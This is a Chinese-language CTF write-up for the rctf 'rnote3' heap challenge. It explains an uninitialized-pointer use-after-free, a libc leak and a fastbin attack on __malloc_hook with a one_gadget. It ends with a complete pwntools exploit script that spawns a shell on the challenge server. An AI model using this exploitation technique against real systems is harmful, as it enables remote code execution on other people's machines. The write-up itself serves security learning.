








# 标题

> rctf-rnote3

## **原理**

泄漏libc地址，利用fastbin attack

## **环境**
Ubuntu 16.04 

## **工具**
ida pro，gdb
## **步骤**

漏洞出现在delete：



思路：
 
- 首先我们要泄漏libc的地址，利用 ptr没有初始化

```
add('1\n',0xa0,'a\n') 
add('2\n',0xa0,'b\n')
```

先add两个元素，元素在内存中是这样的结构：

```
                +-+-+-+-+-+-+-+-+-+-+-+ 
                |                     |
                +-+-+-+-+-+-+-+-+-+-+-+
                |                     | 
    dest------->+-+-+-+-+-+-+-+-+-+-+-+        +-+-+-+-+-+-+-+-+-+-+-+
                |     title           |        |                     |
                +-+-+-+-+-+-+-+-+-+-+-+        +-+-+-+-+-+-+-+-+-+-+-+
                |     size            |        |                     |
                +-+-+-+-+-+-+-+-+-+-+-+        +-+-+-+-+-+-+-+-+-+-+-+
                |                     |------> |      content        |
                +-+-+-+-+-+-+-+-+-+-+-+        +-+-+-+-+-+-+-+-+-+-+-+
                |          .          |        |          .          |
                +-+-+-+-+-+-+-+-+-+-+-+        +-+-+-+-+-+-+-+-+-+-+-+ 
                |          .          |        |          .          |
                +-+-+-+-+-+-+-+-+-+-+-+        +-+-+-+-+-+-+-+-+-+-+-+ 
```




- 然后 输出 元素1的content，但这一步的目的是为了将 rsp+8h的位置置为 元素1的地址。因为ptr也存储在 rsp+8h的位置，这一步是为了利用 ptr没有初始化的漏洞，请继续往下看。


```
show('1\n')
delete('a\n')
```



show(1)结束后，我们查看一下rsp+8h 位置的值。（此时的rsp已经不是 rsp+8h 时的 rsp了，所以并不是读取当前寄存器存储的地址所存储的内容



这样又因为delete 中，对ptr没有进行初始化，所以我们在删除一个不存在的元素时，就会free掉 ptr本身存在的地址。



由上图可见，元素1已经被删除，UAF。

又因为元素1在删除之后，title所在的堆块进入了fastbin中，所以title所对应的位置 fd变成了0。



所以 在读取元素1 的 content的时候要使用 `show('\n')`

```
show('\n')
libc=u64(p.recv(6)+'\x00\x00')
base=libc-0x3C4B78
```

这样就得到了 main_arena+88的地址。 进而计算出libc的基地址。


- 接下来，进行fastbin attack。 

```
add('3\n',0xa0,'c\n')
add('4\n',0x68,'d\n')
add('5\n',0x68,'e\n')

show('4\n')
delete('a\n')
#修改fd
edit('\n',p64(malloc_hook-0x23)+'\n') 
add('6\n',0x68,'f\n')
#使用one_gadget
add('7\n',0x68,'a'*3+p64(base+0x4526a)*2+p64(base+0x846D0)+'\n')

se('1\n')
```

但是这道题比较特殊：

`add('7\n',0x68,'a'*3+p64(base+0x4526a)*2+p64(base+0x846D0)+'\n')`

这句代码是将_malloc_hook指向 base+0x846d0，这个地址对应的汇编代码如下：



看到此处有一个抬高栈的操作。这是因为 我们在 这道的one_gadget中，都不能用。



因为 constraints都无法满足。所以 将栈抬高，这样就 有可能满足 constraints。

所以 跳到了 realloc中(base+0x846D0)。 这样我们就能利用one_gadget了。非常巧妙～


exp:

```
from pwn import *

debug=0
context.log_level='debug'
e=ELF('./libc.so')
if debug:
    p=process('RNote3',env={'LD_PRELOAD':'./libc.so'})
    context.log_level='debug'
    gdb.attach(p)
else:
    p=remote('rnote3.2018.teamrois.cn',7322)

def ru(x):
    return p.recvuntil(x)

def se(x):
    p.send(x)

def add(title,sz,content):
    se('1\n')
    ru('please input title:')
    se(title)
    ru('please input content size:')
    se(str(sz)+'\n')
    ru('please input content:')
    se(content)
    sleep(0.1)

def show(title):
    se('2\n')
    ru('please input note title: ')
    se(title)
    ru('note content: ')
    sleep(0.1)

def edit(title,content):
    se('3\n')
    ru('please input note title:')
    se(title)
    ru('please input new content: ')
    se(content)
    sleep(0.1)

def delete(title):
    se('4\n')
    ru('please input note title: ')
    se(title)
    sleep(0.2)

#=====leak libc============
add('1\n',0xa0,'a\n')
add('2\n',0xa0,'b\n')
show('1\n')
delete('a\n')
show('\n')

libc=u64(p.recv(6)+'\x00\x00')
base=libc-0x3C4B78

malloc_hook=base+e.symbols['__malloc_hook']

#=======fastbin attack===========
add('3\n',0xa0,'c\n')
add('4\n',0x68,'d\n')
add('5\n',0x68,'e\n')

show('4\n')
delete('a\n')
edit('\n',p64(malloc_hook-0x23)+'\n')
add('6\n',0x68,'f\n')
add('7\n',0x68,'a'*3+p64(base+0x4526a)*2+p64(base+0x846D0)+'\n')

se('1\n')

p.interactive()
```
## **参考阅读**
[一个相似的题 pwnable.tw](http://tacxingxing.com/2018/02/20/pwnabletw-secretgarden/#toc_5)